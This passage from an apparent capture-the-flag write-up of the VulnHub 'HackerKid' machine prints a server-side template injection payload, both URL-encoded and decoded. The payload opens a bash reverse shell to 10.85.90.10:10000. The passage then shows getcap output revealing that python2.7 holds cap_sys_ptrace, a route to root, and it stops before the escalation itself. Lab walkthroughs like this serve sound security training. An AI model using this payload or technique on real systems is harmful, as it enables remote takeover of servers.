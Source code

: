 ![ssti_code_exec.png](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/refs/heads/master/assets/vulnhub/hackerkid/ssti_code_exec.png)

Next thing I did was to get a reverse shell using the payload :

```python
?name=%7b%25%20%69%6d%70%6f%72%74%20%6f%73%20%25%7d%7b%7b%20%6f%73%2e%70%6f%70%65%6e%28%22%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%38%35%2e%39%30%2e%31%30%2f%31%30%30%30%30%20%30%3e%26%31%27%22%29%7d%7d
```

Which is just a url encoding of the following:

```python
?name={% import os %}{{ os.popen("bash -c 'bash -i >& /dev/tcp/10.85.90.10/10000 0>&1'")}} 
```

# Getting root, the noisy way

Once I stabilized my reverse shell, I tried looking for `setuid` binaries and other potential paths to root, eventually I found that `/usr/bin/python2.7` has been granted `cap_sys_ptrace` capability

```bash
saket@ubuntu:~$ /sbin/getcap -r / 2>/dev/null
/snap/snapd/24792/usr/lib/snapd/snap-confine = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_sys_chroot,cap_sys_ptrace,cap_sys_admin+p
/snap/core22/2045/usr/bin/ping = cap_net_raw+ep
/usr/bin/python2.7 = cap_sys_ptrace+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
